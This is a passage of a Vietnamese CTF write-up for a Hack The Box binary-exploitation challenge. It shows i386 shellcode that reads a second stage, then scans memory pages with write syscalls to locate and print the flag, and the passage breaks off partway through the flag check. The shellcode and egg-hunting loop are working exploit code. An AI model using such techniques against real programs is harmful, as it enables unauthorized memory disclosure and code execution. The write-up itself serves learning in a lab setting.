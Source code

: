 ## Exploit 
- đầu tiên setup syscall read nhập lại 1 lần nữa với size 0x400, may mắn cho ta vì rcx đã có sẵn địa chỉ buf rồi 

```python 
shellcode1 = asm('''
                mov eax , 3
                xor ebx, ebx
                mov edx, 0x400
                int 0x80
                ''', arch = 'i386')
```
- eip tiếp theo sẽ trỏ đến 0x2aa6a00e, mà ecx ta nhập vào 0x2aa6a000 nên ta padding 0xe byte để eip sau khi nhập sẽ trỏ đến shellcode 

![image](https://github.com/gookoosss/CTF/assets/128712571/f40a710b-6d48-48da-b0b7-6ec193eaeda9)

- nhưng phân tích ở trên thì addr base của thằng dest là 0x60000000 nên ta set trước edi = 0x60000000(tránh các thanh ghi quang trọng như ecx, eax, edx, ebx) 

```python 
init:
        mov edi, 0x60000000
``` 
- có 1 điều thú vị mà ta nên biết nếu thực thi syscall write với ecx ko hợp lệ, byte đầu tiên của eax sẽ là 0xf2 


![image](https://github.com/gookoosss/CTF/assets/128712571/1ce7c20e-457e-4396-9700-6c58e911908b)


- lợi dùng điều nay là sẽ filter được các địa chỉ hợp lệ từ 0x60000000 để check flag, hạn chế được thời gian brute force 
- như phân tích ở trên thì addr dest sẽ có 2 byte đầu null nên mỗi lần check nếu ko phải địa chỉ dest thì ta sẽ cộng thêm cho edi 0x10000
```c 
run:
        mov eax, 4       # write
        mov ebx, 1 
        mov ecx, edi
        mov edx, 1
        int 0x80
        cmp al, 0xf2
        je next_page
        jmp check

    next_page:
        add edi, 0x10000
        jmp run
```
- sau khi tìm được địa chỉ hợp lệ ta sẽ check data của nó, như ta đã biết thì flag sẽ bắt đầu bằng 4byte 'HTB{', nếu 4 byte đầu địa chỉ đó đúng như trên, thực thi syscall read để in flag ra 

```c 
check:
        mov al, [edi+0]
        cmp al, 'H'
        jne next_page

        mov al, [edi+1]
        cmp al, 'T'
        jne next_page

        mov al, [edi+2]
        cmp al, 'B'
        jne next_page

```